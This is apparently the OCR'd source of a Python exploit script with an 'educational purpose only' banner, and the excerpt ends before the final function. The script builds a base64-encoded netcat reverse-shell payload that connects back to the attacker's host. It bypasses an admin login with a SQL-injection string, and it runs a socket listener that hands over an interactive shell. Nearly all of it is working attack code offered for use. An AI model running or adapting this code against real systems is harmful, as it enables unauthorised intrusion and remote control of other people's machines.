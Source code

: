 ```python
⠀⠈⠉⠀⢠⣤⣶⣿⡿⠋⠀⠀⠀⠀⠀⡀⠈⠂⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢠⡇⣿⣷⣿⣿⠀⠀⠀
⠀⠀⠀⠀⠀⠈⠉⠉⠁⠀⠀⠀⠀⢀⡜⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⡆⠀⠀⣼⡇⣾⣿⣿⠇⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣴⠏⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣴⢻⣿⣀⣾⣿⢡⣿⡿⠋⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣰⣿⠏⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣠⣴⡿⢣⣿⣿⣿⣿⣣⡿⠋⠁⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⣰⣿⡿⠀⠀⠀⠀⠀⣀⣠⣤⣴⣶⣿⠿⣋⣴⣿⣿⠿⠛⠉⠁⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⢀⣿⣿⡇⠀⢀⣠⣶⣿⣿⡿⠟⠋⠉⠐⠊⠉⠉⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⢸⣿⣿⣇⣴⣿⣿⡿⠟⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠸⣿⣿⣿⣿⣿⠋⠀⠀⠀⠀⠀{RED}#--------------------------------------------#
 _____  _                         ___  _  _    _  _____  _   __ 
|  ___|| |                       /   || || |  | ||  _  || | / _|
| |__  | |_   ___  _ __  _ __   / /| || || |  | || |/' || || |_ 
|  __| | __| / _ \| '__|| '_ \ / /_| || || |/\| ||  /| || ||  _|
| |___ | |_ |  __/| |   | | | |\___  || |\  /\  /\ |_/ /| || |  
\____/  \__| \___||_|   |_| |_|    |_/|_| \/  \/  \___/ |_||_|  
                                                                
#----------------------------------------------------------------# 
    
    Author: {GREEN}0xEtern4lW0lf{END}                           
    {RED}Site: {BLUE}https://0xetern4lw0lf.github.io/{END}

    FOR EDUCATIONAL PURPOSE ONLY.

  """
  return print(f'{BLUE}{EwLogo}{END}')

## Set the handler
def handler(lport,target):
    print(f"[+] Starting handler on {lport} [+]")
    tn = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(("0.0.0.0",lport))
    s.listen(1)
    conn, addr = s.accept()
    print(f"[+] Receiving connection the {target} [+]")
    tn.sock = conn
    print("[+] Habemus Shell! [+]")
    tn.interact()

## Function encode Base64
def b64e(s):
    return base64.b64encode(s.encode()).decode()

## Create the payload
def createPayload(lhost,lport):
    print("[+] Creating the payload !! [+]")
    global payload_encoded
    global payload
    payload = f"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {lhost} {lport} >/tmp/f"
    payload_encoded = str(b64e(payload))

## Login as admin on the app
def loginAdmin(rhost):
    print("[+] Let's login as admin [+]")
    url = f"http://{rhost}:80/"
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"username": "' or 1=1-- -", "password": ""}
    
    ## If set proxy, add option "proxies=proxies"
    requests.post(url, headers=headers, data=data)
    print("[+] Logged In !! [+]")

## Get the reverse shell
def getShell(payload_encoded):
```